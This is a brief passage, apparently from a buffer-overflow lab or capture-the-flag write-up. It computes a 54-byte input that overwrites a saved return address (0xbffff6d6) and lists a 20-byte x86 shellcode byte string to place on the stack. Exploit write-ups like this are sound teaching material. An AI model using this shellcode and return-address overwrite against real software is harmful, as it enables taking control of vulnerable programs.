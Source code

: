let's see the memory and see what should we do

![](./pics/45.png)

as you can see our input should be 54 and the last 4 will the desired return address `0xbffff6d6`

first input I'll put a 20-byte shell code, 

```
\x31\xc0\x66\xba\x0e\x27\x66\x81\xea\x06\x27\xb0\x37\xcd\x80\x90\x90\x90\x90\x90
```

and another 20 bytes for the second input and see and see

**exact locations on the stack**
